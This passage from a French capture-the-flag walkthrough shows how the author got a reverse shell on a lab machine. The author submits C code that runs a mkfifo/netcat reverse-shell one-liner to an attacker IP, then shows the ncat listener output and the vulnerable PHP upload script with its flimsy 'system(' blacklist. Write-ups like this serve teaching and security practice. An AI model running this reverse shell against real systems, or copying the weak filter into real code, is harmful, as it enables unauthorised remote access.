 Intéressant. Le script s'attend donc à recevoir du code dans un langage qui dispose d'une fonction `system()`. J'ai essayé différents langage avec bien sûr PHP en tenant d'utiliser `shell_exec` et `passthru` mais sans résultat.

Finalement j'ai passé le code C suivant au script :

```c
#include <unistd.h>

int main(void) {
    char *args[4];
    args[0] = "/bin/bash";
    args[1] = "-c";
    args[2] = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.57.1 80 >/tmp/f";
    args[3] = NULL;
    execve(args[0], args, NULL);
    return 0;
}
```

Et j'ai reçu un connect back de la part de l'utilisateur *Mike* :

```shellsession
$ sudo ncat -l -p 80 -v
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.57.5.
Ncat: Connection from 192.168.57.5:55175.
bash: no job control in this shell
mike@pegasus:/home/mike$ id
id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

## et jaunes et pourpres

Voici le code du script `submit.php` qui récupérait le code et le copiait dans un fichier :

```php
<?php
if(isset($_POST[code]))
{
        $code = $_POST[code];
        if (strpos($code, 'system(') !== false || strpos($code, 'system (') !== false)
        {
                die("Sorry, due to security precautions, Mike won't review any code containing system() function call.");
        }
        $ret = file_put_contents('/opt/code_review/code.c', $code, FILE_APPEND | LOCK_EX);
        if ($ret === false)
        {
                die("Error");
        }
        else
        {
                echo "Sent for review!";
        }
}
else
{
        die("No data to process.");
}
?>
```
